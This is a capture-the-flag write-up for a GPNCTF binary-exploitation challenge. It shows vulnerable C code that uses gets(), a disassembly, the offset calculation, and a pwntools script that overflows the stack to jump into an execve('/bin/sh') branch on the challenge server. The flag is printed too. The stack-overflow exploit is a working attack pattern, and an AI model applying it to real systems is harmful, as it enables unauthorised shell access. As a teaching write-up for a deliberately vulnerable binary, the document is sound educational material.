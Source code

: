 # Overlow keep flowing
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
`GPNCTF{1_h0p3_y0u_d1dn't_actually_bu1ld_a_r0p_cha1n}`

## Solution
The challenge provides the following source code in the [attachment](Attachments/overflows-keep-flowing.tar.gz):

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflows-keep-flowing overflows-keep-flowing.c

void shutoff(long long int arg1) {
	printf("Phew. Another accident prevented. Shutting off %lld\n", arg1);
	if (arg1 == 0xdeadbeefd3adc0de) {
		execve("/bin/sh", NULL, NULL);
	} else {
		exit(0);
	}
}

int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

The program is very simple as it uses `gets` and `puts` to fill and print a limited size buffer. The problem consists in the fact that no checks are made on the input that is inserted, this leads to the possibility of overloading the buffer by altering the stack and thus controlling the execution flow. The purpose of the challenge is to exploit the *buffer overflow* to overwrite the return address with the address of the `shutoff` function so as to have a shell. Also, `0xdeadbeefd3adc0de` must be passed as an argument to the function for the shell to be called. To do this you need to figure out how many characters you need to enter before the return address is actually overwritten.

```assembly
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000401212 <+0>:     endbr64
   0x0000000000401216 <+4>:     push   rbp
   0x0000000000401217 <+5>:     mov    rbp,rsp
   0x000000000040121a <+8>:     sub    rsp,0x100
   0x0000000000401221 <+15>:    lea    rax,[rbp-0x100]
   0x0000000000401228 <+22>:    mov    rdi,rax
   0x000000000040122b <+25>:    mov    eax,0x0
   0x0000000000401230 <+30>:    call   0x4010b0 <gets@plt>
   0x0000000000401235 <+35>:    lea    rax,[rbp-0x100]
   0x000000000040123c <+42>:    mov    rdi,rax
   0x000000000040123f <+45>:    call   0x401080 <puts@plt>
   0x0000000000401244 <+50>:    mov    eax,0x0
   0x0000000000401249 <+55>:    leave
   0x000000000040124a <+56>:    ret
End of assembler dump.
```

Analyzing the decompiled code we can observe that 256 bytes (0x100) are reserved for the buffer (i.e. 255 for input + 1 null byte to identify the end of the string), to which we must add another 8 bytes to overwrite the pointer contained in the register *rbp* (Return Base Pointer). We can verify the correctness of what has been said through the use of *pwndbg* by inserting a payload of 264 and viewing the contents of the register.

<p align="center">
  <img src="Attachments/poc.png" />
</p>

At this point we should understand how to pass the value `0xdeadbeefd3adc0de` as an argument to the `shutoff` function to pass the check. But, having control of the execution flow, we can make the program not go to check and then enter the execution branch of the shell.

<p align="center">
  <img src="Attachments/offset.png" />
</p>

Analyzing the decompiled code of the `shutoff` function we can understand what is the distance, from the base address, of the first instruction that identifies the branch that executes the shell (boxed in red).

To automate what has been said, the following [script](Attachments/solve.py) was created.

```python
from pwn import *

if args.DEBUG:
    p = gdb.debug("./overflows-keep-flowing")
elif args.REMOTE:
    p = remote('overflows-keep-flowing-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./overflows-keep-flowing")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

exe = context.binary = ELF("./overflows-keep-flowing", checksec=False)
shutoff = p64(exe.symbols.shutoff + 56)

p.sendline(b"A" * (256 + 8) + shutoff)

p.interactive()
```